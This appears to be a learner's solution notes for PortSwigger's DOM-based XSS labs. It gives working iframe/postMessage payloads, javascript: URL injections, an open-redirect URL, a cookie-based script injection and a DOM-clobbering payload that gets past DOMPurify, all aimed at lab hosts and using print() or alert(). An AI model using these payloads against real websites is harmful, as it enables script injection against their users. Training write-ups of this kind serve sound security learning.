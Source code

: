 ## DOM XSS using web messages
We see in the webpage javascript there is the following event listener:
```
<script>
                        window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                        })
</script>
```

Staging the payload in the exploit server. 
```
<iframe src="https://0ae4003904d6f1f482f4e23200d20060.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print() >', '*')" >
```

## DOM XSS using web messages and a javascript URL
The page contains a sink in the form of a message event listener:
```
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>              
```
Stage an exploit on a page that the user visits.
The iframe loads the target site and calls contextWindow.postMessage to trigger the event listener.
The message includes javascript for any (*) target origin
```
<iframe src="https://0a27003803718cf18050940e007f00d6.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

## DOM XSS using web messages and *JSON.parse*
Similar vulnerability except the sink now calls JSON.parse(e.data) and returns if the validation fails.
The exploit payload delivers a JSON object where the url calls malicious javascript. 
```
<iframe src=https://0a55002603bafe7d81a09d2000d50006.web-security-academy.net/ onload='this.contentWindow.postMessage(JSON.stringify({type:"load-channel",url:"javascript:print()"}),"*")'>
```

## DOM XSS using redirect url 
The blog post page contains a "Back to Blog" button which redirects to the homepage. 
The button includes an anchor which uses regex to get the url, allowing an attacker to insert an arbitrary url as the query parameter.

```
<a href="#" onclick="returnUrl = /url=(https?:\/\/.+)/.exec(location); location.href = returnUrl ? returnUrl[1] : &quot;/&quot;">Back to Blog</a>
```

Exploit is to add the url query parameter to the URL to add it to the location object. 
The regex will process it as the redirect url.
```
https://0ac700710410da51818e07ba00f3006b.web-security-academy.net/post?postId=10&url=https://exploit-0ac30026047cda8a81bd061a014900b6.exploit-server.net/
```

Mitigation: use strict validation against a whitelist of URLs

## DOM XSS with cookie manipulation
The page uses a cookie called lastViewedProduct whose value is the last product url visited.
We can stage an exploit where we initially navigatre to a product page and append some malicious javascript to the url.
This URL is saved in the cookie. Then when we call the onload and are redirected to the home page, the cookie loads the javascript.

```
<iframe src="https://0a56007f0348ed7b801b8f5b004d002f.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://0a56007f0348ed7b801b8f5b004d002f.web-security-academy.net';window.x=1;">
```

## DOM clobbering to enable XSS (expert)
From [Portswigger DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering):
>The term clobbering comes from the fact that you are "clobbering" a global variable or property of an object and overwriting it with a DOM node or HTML collection instead. For example, you can use DOM objects to overwrite other JavaScript objects and exploit unsafe names, such as submit, to interfere with a form's actual submit() function.

The Blog page contains a javascript function displayComments which is vulnerable to DOM clobbering:
```
      let defaultAvatar = window.defaultAvatar || {avatar: '/resources/images/avatarDefault.svg'}
      let avatarImgHTML = '<img class="avatar" src="' + (comment.avatar ? escapeHTML(comment.avatar) : defaultAvatar.avatar) + '">';
```
We can inject a DOM clobbering payload as the avatar when we upload a comment to override the globally-scoped window.defaultAvatar variable. In the anchor href we can inject the malicious javascript.
```
<a id=defaultAvatar> <a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
```
The cid: protocol is to bypass DOMPurify
